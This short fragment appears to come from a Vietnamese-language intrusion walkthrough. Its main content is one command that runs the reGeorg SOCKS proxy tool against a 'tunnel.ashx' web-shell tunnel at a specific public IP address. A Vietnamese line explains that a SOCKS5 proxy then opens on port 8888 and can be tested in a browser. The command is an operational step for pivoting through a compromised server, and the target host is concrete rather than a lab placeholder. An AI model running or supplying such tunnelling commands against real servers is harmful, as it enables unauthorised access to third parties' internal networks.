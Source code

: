 ```
python reGeorgSocksProxyASHX.py -u http://125.235.4.147/images/tunnel.ashx
```

Mac dinh se co socks5 o port 8888, su dung trinh duyet de test thu socks co ok khong?
